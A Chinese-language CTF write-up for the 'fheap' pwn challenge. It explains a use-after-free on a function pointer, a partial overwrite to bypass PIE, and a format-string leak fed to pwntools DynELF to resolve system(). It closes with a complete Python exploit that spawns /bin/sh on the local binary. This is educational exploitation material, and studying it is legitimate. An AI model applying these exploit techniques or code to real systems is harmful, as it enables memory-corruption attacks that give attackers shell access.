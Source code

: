 ```yaml
---
title: fheap-UAF
date: 2019-03-02 14:39:57
tags: [UAF,DynELF,PIE,format string]
---
```


## Analysis
```
Canary                        : Yes
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Partial
```
程序有两个功能：1、create string 2、delete string
在create string函数中，当申请的字符串长度小于16字节时，会直接将字符串存放在堆中；如果大于等于16字节，就会另申请一块堆内存，并将指针存放在原堆块中。程序结构体如下所示

```
typedef struct String{
    union {
        char *buf;
        char array[16];
    } o;
    int len;
    void (*free)(struct String *ptr);
} String;
```
程序在delete string时free堆块，没有将堆指针设为NULL，导致存在UAF漏洞，可以通过UAF漏洞覆盖`void (*free)(struct String *ptr);`函数指针为我们想要执行的函数，因为函数开启了PIE，所以要绕过PIE。

## 利用UAF和partial overwrite绕过PIE
由于内存页的载入机制，PIE的随机化只能对单个内存页进行随机化，因为一个内存页的大小通常为0x1000，所以对于一个被随机化的地址来说，无论地址怎么变，它的低12bit，3个十六进制数不会变。所以可以通过partial overwrite，修改`void (*free)(struct String *ptr);`函数指针。
因为覆盖时只能覆盖整个字节（8bit或16bit，即2个或4个十六进制数），原函数指针后三位为0xD52，经观察puts函数`.text:0000000000000D2D                 call    _puts`后三位为0xD2D，所以只需要将0x52覆盖为0x2D就可以实现puts打印出puts的地址，然后减去0xD2D获取程序基址
```
        create(4,'bb')
        create(4,'cc')
        delete(1)
        delete(0)
        data='a' * 0x10 + 'b' * 0x8 + '\x2d'
        create(0x20, data)  #data被写进chunk1中
        delete(1)
        p.recvuntil('b' * 0x8)
        data = u64(p.recv(6).ljust(8,'\x00'))
        process_base = data - 0xd2d
        delete(0)

```
获取了程序的基址，接下来就是获取system函数的地址，因为程序为调用过system函数，所以使用pwntools的DynELF函数对程序使用的libc库进行搜索，获取system函数的地址。
## 利用UAF和格式化字符串漏洞获取system地址
DynELF是pwntools中专门用来应对无libc情况的漏洞利用模块，需要一个程序存在可以反复触发信息泄露的漏洞，从而可以不断泄露libc地址空间内的信息。
将`void (*free)(struct String *ptr);`覆盖为printf，进而构造利用格式化字符串漏洞泄露内存。leak函数如下
```
printf_plt = process_base + 0x9d0
def leak(addr):
        data = '%9$sAA' + '#'*(0x18 - len('%9$sAA')) + p64(printf_plt)
        create(0x20, data)
        p.recvuntil("quit")
        p.sendline("delete string")
        p.recvuntil('id:')
        p.sendline(str(1))
        p.recvuntil('sure?:')
        p.sendline('yes12345' + p64(addr))
        data = p.recvuntil('AA')[:-2]
        data += "\00"
        return data
```
发现printf函数调用时出现segmentation段错误，后来对比发现正常的printf函数流程在`<__printf+34>`当ZF=1时je会跳转，而`<__printf+7>:test   al,al`当al and al等于0时会将ZF标志寄存器置1，故al and al = 1时，je会跳转。段错误时，printf函数没有发生跳转，而是执行到`<__printf+36>`，发生错误。
```
0x7ff6ab807800 <__printf>:	sub    rsp,0xd8
   0x7ff6ab807807 <__printf+7>:	test   al,al
   0x7ff6ab807809 <__printf+9>:	mov    QWORD PTR [rsp+0x28],rsi
   0x7ff6ab80780e <__printf+14>:	mov    QWORD PTR [rsp+0x30],rdx
   0x7ff6ab807813 <__printf+19>:	mov    QWORD PTR [rsp+0x38],rcx
   0x7ff6ab807818 <__printf+24>:	mov    QWORD PTR [rsp+0x40],r8
   0x7ff6ab80781d <__printf+29>:	mov    QWORD PTR [rsp+0x48],r9
   0x7ff6ab807822 <__printf+34>:	je     0x7ff6ab80785b <__printf+91>
   0x7ff6ab807824 <__printf+36>:	movaps XMMWORD PTR [rsp+0x50],xmm0
   0x7ff6ab807829 <__printf+41>:	movaps XMMWORD PTR [rsp+0x60],xmm1
   0x7ff6ab80782e <__printf+46>:	movaps XMMWORD PTR [rsp+0x70],xmm2
   0x7ff6ab807833 <__printf+51>:	movaps XMMWORD PTR [rsp+0x80],xmm3
   0x7ff6ab80783b <__printf+59>:	movaps XMMWORD PTR [rsp+0x90],xmm4
   0x7ff6ab807843 <__printf+67>:	movaps XMMWORD PTR [rsp+0xa0],xmm5
   0x7ff6ab80784b <__printf+75>:	movaps XMMWORD PTR [rsp+0xb0],xmm6
   0x7ff6ab807853 <__printf+83>:	movaps XMMWORD PTR [rsp+0xc0],xmm7
   0x7ff6ab80785b <__printf+91>:	lea    rax,[rsp+0xe0]
   ......
```
所以讲`void (*free)(struct String *ptr);`指向0xF51，会将al置零
```
.text:0000000000000F51                 mov     eax, 0
.text:0000000000000F56                 call    _printf
.text:0000000000000F5B                 mov     rdx, [rbp+nbytes] ; nbytes
```
测试后发现，printf可以正常打印出地址，但是只能执行一次，因为DynELF要求leak函数能够重复执行，分析发现，原来的leak函数中函数指针指向print@plt，调用函数，函数的返回值不变，执行`delete(1)`后，能根据返回值，返回到菜单界面，再次执行`delete(0)`，而将函数指针指向0xF51时，调用了一个call，函数的返回到0xF5B，程序返回不到原来的菜单界面。
最后通过在leak函数前，再次`create(0x20,data)`，释放堆快，重新布局内存空间，不需要将函数指针指向0xF51也可以正常执行printf函数。
泄露出system函数地址后，再次利用函数指针，执行`/bin/sh;`获取shell。

## EXP
```
#!/usr/bin/env python
from pwn import *

p = process('./fheap')
DEBUG = 0
VERBOSE = 1
if DEBUG:
	gdb.attach(p)
if VERBOSE:
	context(log_level = "debug")

def create(size,content):
	p.recvuntil("quit")
	p.sendline("create string")
	p.recvuntil("size:")
	p.sendline(str(size))
	p.recvuntil('str:')
	p.sendline(content.ljust(size,'\x00'))
	p.recvuntil('n')

def delete(idx):
	p.recvuntil("quit")
	p.sendline("delete string")
	p.recvuntil('id:')
	p.sendline(str(idx))
	p.recvuntil('sure?:')
	p.send('yes '+'\n')

printf_plt = 0

def leak(addr):
	delete(0)
	data = '%9$sAA' + '#'*(0x18 - len('%9$sAA')) + p64(printf_plt)
  create(0x20, data)
  p.recvuntil("quit")
  p.sendline("delete string")
  p.recvuntil('id:')
  p.sendline(str(1))
  p.recvuntil('sure?:')
  p.sendline('yes12345' + p64(addr))
  data = p.recvuntil('AA')[:-2]
	data += "\00"
	return data

def pwn():
	global printf_plt
	create(4,'bb')
	create(4,'cc')
	delete(1)
	delete(0)
	#get the base address of process due to the process has opened ASLR(PIE).
	data='a' * 0x10 + 'b' * 0x8 + '\x2d'
	create(0x20, data)
	delete(1)
	p.recvuntil('b' * 0x8)
	data = u64(p.recv(6).ljust(8,'\x00'))
	process_base = data - 0xd2d
	log.success('process_base:'+hex(process_base))
	printf_plt = process_base + 0x9d0
	log.success('printf_plt:'+hex(printf_plt))
	delete(0)

	data = 'a' * 0x10 + 'b' * 0x8 + '\x2d'
	create(0x20,data)
	delete(1)
	d = DynELF(leak,process_base,elf = ELF('./fheap'))
	system_addr = d.lookup('system','libc')
	delete(0)
	log.success('system_addr:'+hex(system_addr))

	data = '/bin/sh;' + '#'*(0x18 - len('/bin/sh;')) + p64(system_addr)
	create(0x20,data)
	delete(1)
	p.interactive()

if __name__ == '__main__':
	pwn()

```
